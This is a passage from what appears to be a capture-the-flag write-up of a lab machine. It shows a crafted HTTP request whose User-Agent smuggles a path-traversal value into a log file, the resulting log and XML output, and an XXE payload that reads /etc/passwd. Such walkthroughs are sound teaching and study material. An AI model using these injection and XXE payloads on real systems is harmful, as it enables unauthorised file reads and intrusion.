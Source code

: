 Lastly, I sent a request to the web server with the user agent crafted to overwrite the URI with a value that would read the image I modified earlier.

```http
GET /img/greg.jpg HTTP/1.1
Host: target.htb:8080
User-Agent: fakeagent||/../../../../../../tmp/greg.jpg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 22 Jun 2022 09:07:03 GMT
Cache-Control: max-age=0
```

The request was inserted in the log file.
```bash
woodenk@redpanda:/opt$ tail -f /opt/panda_search/redpanda.log

304||10.10.14.143||fakeagent||/../../../../../../tmp/greg.jpg||/img/greg.jpg
```

And after a short wait, the number of views was incremented in the XML file.

```xml
woodenk@redpanda:~$ cat /tmp/eric_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>9</views>
  </image>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>2</views> <!-- INCREMENTED -->
  </image>
...
```

## Reading Files

I knew I could get the application to modify my XML. The next step was to see if I could use it to get [XML external entity injection](https://portswigger.net/web-security/xxe).

I modified the XML to try to read `/etc/passwd`. 

```xml
woodenk@redpanda:~$ cat /tmp/eric_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>9</views>
  </image>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>2</views>
    <file>&xxe;</file>
  </image>
...
```

